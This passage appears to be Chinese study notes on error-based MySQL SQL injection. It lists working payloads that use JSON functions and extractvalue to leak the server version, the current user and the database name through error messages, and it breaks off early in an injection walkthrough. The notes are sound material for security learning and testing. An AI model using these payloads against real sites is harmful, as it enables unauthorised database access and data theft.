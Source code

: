 ![几何函数报错注入](http://113.45.142.235:9001/laffrex/pictures/几何函数报错注入.png)

###### ④json报错

* 版本属于[5.7.8,~]

1. json_type

> 获取json值的类型，当我们**传入的值不属于json格式**则报错
>
> json_type(version())

* 标准payload

  ```sql
  1' and json_type(version())%23 --+
  ```

2. json_extract

> json_extract(json_doc,path[,path])
>
> 从json_doc中读取数据，和path的参数匹配，第一个或第二个参数不是json格式就报错

```sql
1' and json_extract(user(),'$.a') -- qwe
1' and json_extract(user(),'$.a') # 

1' and json_extract('[1,2,3]',user()) -- qwe

```

3. json_array_append

> json_array_append(json_doc,path,val[,path,val]...)，
>
> 将值**附加**到json文档中**指定数组的末尾**并**返回结果，**
>
> 报错输出原理和json_extract函数相同

```sql
1' and json_array_append('[1,2,3]',user(),1) --+ 
1' and json_array_append('[1,2,3]',user(),1) -- qwe
```

##### c. 注入流程

1. 查看数据库版本

   ```sql
   1' and extractvalue(1,concat(0x7e,(select version()),0x7e)) --+
   ```

   ![1. 查看数据库版本](http://113.45.142.235:9001/laffrex/pictures/1.%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC.png)

2. 查看库名

   ```sql
   #查看库名
   1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
   ```

